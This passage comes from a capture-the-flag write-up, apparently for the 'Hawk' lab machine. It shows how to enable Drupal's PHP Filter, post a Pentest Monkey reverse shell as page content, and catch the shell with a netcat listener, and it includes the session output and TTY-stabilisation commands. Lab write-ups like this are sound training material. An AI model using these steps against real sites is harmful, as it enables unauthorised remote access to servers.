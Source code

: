 ![alt text](https://raw.githubusercontent.com/FabV05/files/main/Hawk/Pasted%20image%2020230716015033.png)

The second step entails checking the box next to "PHP Filter" and saving the changes. 

![alt text](https://raw.githubusercontent.com/FabV05/files/main/Hawk/Pasted%20image%2020230716015129.png)

The third step is to return to the "modules" section and once again locate "PHP Filter". However, this time we need to navigate to the "Permissions" section located on the right-hand side.

![alt text](https://raw.githubusercontent.com/FabV05/files/main/Hawk/Pasted%20image%2020230716015323.png)

Once inside, grant the administrator permission to use the PHP filter, and then save the changes again. 

![alt text](https://raw.githubusercontent.com/FabV05/files/main/Hawk/Pasted%20image%2020230716015555.png)

The fourth step is to add the PHP code that will send a reverse shell to our machine. To do this, we will navigate to the "Content" section and then select "Add Content".

![alt text](https://raw.githubusercontent.com/FabV05/files/main/Hawk/Pasted%20image%2020230716015944.png)

Next, go to "Basic PHP" and add a reverse shell code. In this case, I used the one from Pentest Monkey. Select "PHP Code" and click on "Preview," but before doing so, make sure you have set up a listener on the selected port.

![alt text](https://raw.githubusercontent.com/FabV05/files/main/Hawk/Pasted%20image%2020230716020408.png)

BOOM! Now we have a reverse shell. However, it is not yet stable, so we will proceed with the following commands:

```bash
nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.102] 49038
Linux hawk 4.15.0-23-generic #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 06:04:46 up  3:37,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ script /dev/null -c bash
www-data@hawk:/$ ^Z  -> ctrl + z
-----
in our machine -> stty raw -echo; fg
reset
xterm
-----
www-data@hawk:/$ export TERM=xterm

```

Now that I have a stable and full bash shell, it means I can safely use Ctrl+C without causing any issues. However, our job is not done yet. We still need to find a way to escalate privileges and become root. It seems that we will need to perform lateral movement to gain access to a user with higher privileges.
